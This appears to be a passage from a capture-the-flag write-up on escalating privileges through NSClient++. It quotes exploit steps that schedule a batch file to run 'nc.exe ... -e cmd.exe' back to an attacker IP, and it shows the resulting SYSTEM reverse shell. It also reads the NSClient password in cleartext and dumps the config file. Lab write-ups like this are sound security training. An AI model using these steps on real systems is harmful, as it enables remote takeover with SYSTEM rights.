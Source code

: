     2. Login and enable following modules including enable at startup and save configuration
    - CheckExternalScripts
    - Scheduler

    3. Download nc.exe and evil.bat to c:\temp from attacking machine
            @echo off
            c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

    4. Setup listener on attacking machine
            nc -nlvvp 443

    5. Add script foobar to call evil.bat and save settings
    - Settings > External Scripts > Scripts
    - Add New
            - foobar
                    command = c:\temp\evil.bat

    6. Add schedulede to call script every 1 minute and save settings
    - Settings > Scheduler > Schedules
    - Add new
            - foobar
                    interval = 1m
                    command = foobar

    7. Restart the computer and wait for the reverse shell on attacking machine
            nc -nlvvp 443
            listening on [any] 443 ...
            connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
            Microsoft Windows [Version 10.0.17134.753]
            (c) 2018 Microsoft Corporation. All rights reserved.

            C:\Program Files\NSClient++>whoami
            whoami
            nt authority\system

First of all we get the password for the NSClient and the content of
`nsclient.ini` in order to see the access restriction. The application is only
available from localhost.

    :::text
    nadine@SERVMON C:\>cd "C:\Program Files\NSClient++"

    nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
    Current password: ew2x6SsGTxjRwXOT


    nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
    ´╗┐# If you want to fill this file with all available options run the following command:
    #   nscp settings --generate --add-defaults --load-all
    # If you want to activate a module and bring in all its options use:
    #   nscp settings --activate-module <MODULE NAME> --add-defaults
    # For details run: nscp settings --help
